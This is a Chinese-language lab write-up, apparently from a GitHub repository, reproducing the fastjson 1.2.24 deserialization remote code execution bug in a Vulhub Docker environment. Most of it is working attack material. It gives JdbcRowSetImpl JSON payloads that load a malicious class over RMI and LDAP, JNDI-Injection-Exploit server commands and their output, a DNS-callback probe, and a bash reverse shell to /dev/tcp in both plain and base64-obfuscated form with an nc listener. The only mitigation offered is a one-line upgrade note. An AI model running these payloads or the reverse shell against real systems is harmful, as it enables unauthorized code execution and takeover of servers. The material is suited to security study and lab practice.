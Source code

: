 # fastjson 1.2.24 反序列化导致任意命令执行漏洞



### 1.1、漏洞描述

FastJson是Alibaba的一款开源Json解析库，可用于将Java对象转换为其Json表示形式，也可以用于将
Json字符串转换为等效的Java对象。近几年来FastJson漏洞层出不穷。RCE漏洞的源头：17年FastJson爆出的1.2.24反序列化漏洞。
关于FastJson1.2.24反序列化漏洞，简单来说，就是FastJson通过parseObject/parse将传入的字符串反序
列化为Java对象时由于没有进行合理检查而导致的。

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.24

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.24-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到

![image-20230908103611667](./imgs/image-20230908103611667.png)

发送测试数据：

```json
{"name":"hello", "age":20}
```

![image-20230908105242306](./imgs/image-20230908105242306.png)

#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测

![image-20230908105754095](./imgs/image-20230908105754095.png)



POC：

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":
    "rmi://wvvlunpw9mk6u4suzoi884ibw22sqh.oastify.com/aaa",
    "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试

![image-20230908131446437](./imgs/image-20230908131446437.png)

![image-20230908131437714](./imgs/image-20230908131437714.png)



#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器



在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hello" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/hello
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/52e3fa
ldap://192.168.80.141:1389/52e3fa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/atawc5
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/gfk0fp
ldap://192.168.80.141:1389/gfk0fp

----------------------------Server Log----------------------------
2023-09-08 01:38:44 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:38:44 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:38:44 [LDAPSERVER] >> Listening on 0.0.0.0:1389

```

![image-20230908135208881](./imgs/image-20230908135208881.png)

发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "rmi://192.168.80.141:1099/atawc5",
    "autoCommit":true
    }
}
```



![image-20230908134211826](./imgs/image-20230908134211826.png)

验证：

![image-20230908134440040](./imgs/image-20230908134440040.png)

### 1.5、深度利用



#### 1、GetShell

构造反弹 Shell命令：

![image-20230908134953126](./imgs/image-20230908134953126.png)

```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1


bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/qkgjya
ldap://192.168.80.141:1389/qkgjya
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/n9qirm
ldap://192.168.80.141:1389/n9qirm
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/nmyogr

----------------------------Server Log----------------------------
2023-09-08 01:53:48 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 01:53:48 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 01:53:48 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908135415444](./imgs/image-20230908135415444.png)

POC :

```bash
{
    "handsome":{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName": "ldap://192.168.80.141:1389/qkgjya",
    "autoCommit":true
    }
}
```



![image-20230908135447227](./imgs/image-20230908135447227.png)

获得Shell

![image-20230908135518387](./imgs/image-20230908135518387.png)

### 1.6、修复建议

升级版本到最新
